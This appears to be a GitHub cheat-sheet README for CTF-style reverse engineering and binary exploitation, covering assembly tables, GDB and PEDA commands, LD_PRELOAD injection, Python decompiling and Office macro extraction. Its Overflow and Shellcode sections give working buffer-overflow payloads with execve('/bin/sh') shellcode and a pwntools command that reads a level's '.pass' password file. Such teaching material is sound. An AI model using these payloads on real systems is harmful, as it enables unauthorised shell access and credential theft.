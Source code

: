 <picture>
    <source height="100px" srcset="https://user-images.githubusercontent.com/22857002/173634301-11eb983d-29a7-4efb-9be3-ab2179eab6b7.svg#gh-dark-mode-only" media="(prefers-color-scheme: dark)">
    <img height="100px" src="https://user-images.githubusercontent.com/28403617/172731874-c08c9da6-bac7-4836-b8bc-3744087d30a3.svg#gh-light-mode-only">
</picture>

---

- [ASM](#asm)
- [Binary ninja](#binary-ninja)
- [Decompile Python Executable](#decompile-python-executable)
- [GDB](#gdb)
- [Lib Injection](#lib-injection)
- [Macro Office PPTM](#macro-office-pptm)
- [OverFlow](#overflow)
- [Shellcode](#shellcode)

# ASM
### Variables
| x64     | x32       | What is ?               |
|:-------:|:---------:|-------------------------|
| RAX     | EAX       | Return Value            |
| RCX     | ECX       | Counter (or Fourth Arg) |
| RDX     | EDX       | Third Arg               | 
| RSI     | ESI       | Second Arg              |
| RDI     | EDI       | First Arg of Function   |
| RSP     | ESP       | Stack Pointer           |
| RIP     | EIP       | Next Instruction        |
| R8-R11  | r8d-r11d  | Scratch register        |
| R12-R15 | r12d-r15d | Preserved register      |

[Source](https://www.cs.uaf.edu/2017/fall/cs301/lecture/09_11_registers.html)

## Operation
| Operation             | Explication             |
|:----------------------|-------------------------|
| **MOV** size dest,src | dest ← src              |
| **LEA** dest,\[op\]   | dest ← addr op          |
| **PUSH** op           | Increase RSP & Store op |
| **POP** op            | Load op & Discrease RSP |
|                       |                         |
| **ADD** op1,op2       | op1 ← op1 + op2         |
| **SUB** op1,op2       | op1 ← op1 - op2         |
| **NEG** reg           | reg ← -reg              |
| **INC** reg           | reg ← reg + 1           |
| **DEC** reg           | reg ← reg - 1           |
|                       |                         |
| **AND** op1,op2       | op1 ← op1 & op2         |
| **OR**  op1,op2       | op1 ← op1 | op2         |
| **XOR** op1,op2       | op1 ← op1 ^ op2         |
|                       |                         |
| **CMP** op1,op2       | op1 - op2               |
| **TEST** op1,op2      | op1 & op2               |
| **JMP** op            | Jump to op              |

[Source - Page 21](https://www.lacl.fr/tan/asm)

# Overflow
### Basic
```bash
(python -c "import struct; print('A' * (100 - 0) + struct.pack('<I', 0xffffffff))")
```

### Shellcode
```bash
(python -c "import struct; print('\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80' + 'A' * (100 - 21) + struct.pack('<I', 0xffffffff))")
```

# Shellcode
### Cat
```bash
python -c "import pwn; shell = pwn.asm(pwn.shellcraft.i386.linux.cat('/home/users/level05/.pass')); print(shell); print(len(shell))"
```

### Exec sh 1
```bash
python -c "import pwn; shell = pwn.asm(pwn.shellcraft.i386.linux.sh()); print(shell); print(len(shell))"
```

### Exec sh 2
```
\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80
21
```

# GDB
### Command
```gdb
b *0x12345678      # Breakpoint
b strcpy           # Breakpoint
r                  # Run program
r < <(echo lol)    # Run with pipe
r arg1 arg2        # Run with arg
c                  # Continue
n                  # Next operation
set $eax=0x00      # Set variable
info register      # Show Register
```

### Print
```gdb
x/s "string"
x/d 53
x/x 0xff
help x

print $rax
```

- [Gdb cheatsheet - gabriellesc](https://gabriellesc.github.io/teaching/resources/GDB-cheat-sheet.pdf)
- [Gdb cheatsheet - darkdust](https://darkdust.net/files/GDB%20Cheat%20Sheet.pdf)

### Get env address
```gdb
x/10s **(char***)&environ
```

## Peda
### Install
```bash
git clone https://github.com/longld/peda.git ~/.peda
echo "source ~/.peda/peda.py" >> ~/.gdbinit
echo "DONE! debug your program with gdb and enjoy"
```

# Binary ninja
### Scrap code from html

```javascript
let result = '';
[...document.querySelectorAll('.LinearDisassemblyLine')].forEach(parent_elmt => {
  [...parent_elmt.children].forEach(children_elmt => {
    result += children_elmt.textContent
  });
  result +=  '\n'
});
console.log(result);
```

# Lib Injection
- Recreate getuid function
```C
uid_t	getuid(void)
{
	return (4242);
}
```
- compile
```bash
gcc -shared -fpic lib.c -o libnike.so -m32
```
- run and inject
```bash
LD_PRELOAD=./libnike.so ./exec
```

# Decompile Python Executable
Convert executable into .pyc
```bash
git clone https://github.com/extremecoders-re/pyinstxtractor
cd pyinstxtractor
python3 pyinstxtractor.py exec
```

Disassembly .pyc (compatible python 3.9.2)
```bash
git clone https://github.com/zrax/pycdc
cd pycdc
cmake
make
./pycdc file.pyc # Convert .pyc into .py
./pycdas file.pyc # Convert .pyc into byte-code disassembly
```

# Macro Office PPTM
### Install
```bash
sudo pip3 install oletools
```

### Decompress PPTM
```bash
olevba  -c file.pptm
```
